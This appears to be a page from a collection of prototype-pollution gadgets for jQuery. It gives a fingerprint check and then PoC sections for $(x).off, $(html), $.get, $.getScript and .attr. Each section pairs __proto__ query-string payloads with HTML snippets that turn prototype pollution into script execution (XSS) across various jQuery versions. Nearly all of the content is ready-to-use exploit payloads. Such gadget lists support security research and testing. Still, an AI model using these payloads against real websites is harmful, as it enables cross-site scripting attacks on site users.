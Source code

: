 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

* Can be exploited through String.prototype

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON
* Can be exploited through Boolean.prototype

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.get jQuery all versions

```
?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/1.10.0/jquery.js></script>
<script> 
  Object.prototype.context = '<img/src/onerror=alert(1)>';
  Object.prototype.jquery = 'x';
</script>      
<script>
  jQuery.get('http://google.com/');
</script>
```

#### $.get jQuery >= 3.0.0

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script> 
  Object.prototype.url = 'data:,alert(1)//';
  Object.prototype.dataType = 'script';   
  Object.prototype.crossDomain = '';
</script>      
<script>
  $.get('http://google.com/'); 
  $.post('http://google.com/'); 
</script>
```

#### $(x).attr jQuery >= 1.8.0

* Sets the attribute of an element

```
?__proto__[OnError]=alert(1)&__proto__[SRC]=fakeimagewontload
```

```html
<img id="test" src=realimage.jpg>
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script>
  Object.prototype.OnError = 'alert(1)';
  Object.prototype.SRC = 'fakeimagewontload.jpg';
</script>
<script>
$('#test').attr({"width":"100%"}) // The {} is being polluted with extra attributes
</script>
```

